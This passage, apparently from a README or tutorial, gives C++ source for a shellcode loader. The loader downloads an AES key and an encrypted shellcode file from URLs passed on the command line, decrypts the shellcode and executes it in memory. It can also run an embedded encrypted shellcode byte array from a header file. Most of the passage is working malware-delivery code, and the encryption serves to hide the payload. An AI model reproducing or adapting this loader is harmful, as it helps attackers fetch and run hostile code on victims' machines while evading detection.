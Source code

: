 ```cpp
    std::string base_url = argv[2];  // Base URL
    std::string key_url = base_url + argv[4];  // Key file URL
    std::string shellcode_url = base_url + argv[6];  // Shellcode file URL

    // Download key and iv
    load_key_iv(key_url);

    // Download encrypted shellcode
    std::string encrypted_shellcode;
    download_file(shellcode_url, encrypted_shellcode);

    // Decrypt the shellcode
    std::string decrypted_shellcode = aes_decrypt(encrypted_shellcode, aes_key, aes_iv);

    // Convert decrypted shellcode into unsigned char[] and execute
    unsigned char* shellcode = (unsigned char*)decrypted_shellcode.c_str();
    execute_shellcode(shellcode, decrypted_shellcode.size());
#else
    std::cout << "Using embedded shellcode and key..." << std::endl;
    execute_shellcode(buf, BUF_SIZE);
#endif

    return 0;
}
```

### 2. Buffer.h (Embedded Option)


```cpp
#ifndef BUFFER_H
#define BUFFER_H

unsigned char key[] = "<insert key here>";
unsigned char buf[] = 
"\x07\xeb\x35\x2d\x0a\xee\xa5\x71\x16\x8d\xf6\xdd\x10\x28\xf1\x17"
"\xaa\xd8\xb3\x36\x8e\xbb\xbc\x15\xab\xdb\x77\x56\xa5\xc1\x65\x3e"
"\xe9\x1e\x4d\x93\xf2\x02\x15\xda\x97\xea\x99\xc3\x59\x36\x9e\x1a"
"\x30\x7f\xc8\x83\x5b\xde\x93\xfc\x72\xa4\x26\x5b\xe9\x99\xd3\x5d"
"\xc7\x85\x65\x8a\xb3\xbe\xb3\x40\x09\xda";

#define BUF_SIZE sizeof(buf)

#endif
```



### Explanation:
1. **Command-line vs. Embedded**: 
   - If you compile with `USE_EMBEDDED` defined, the program will use the embedded shellcode and keys from `buffer.h`. 
   - If you don't define `USE_EMBEDDED`, it will expect you to provide URLs via command-line arguments to download the keys and shellcode.
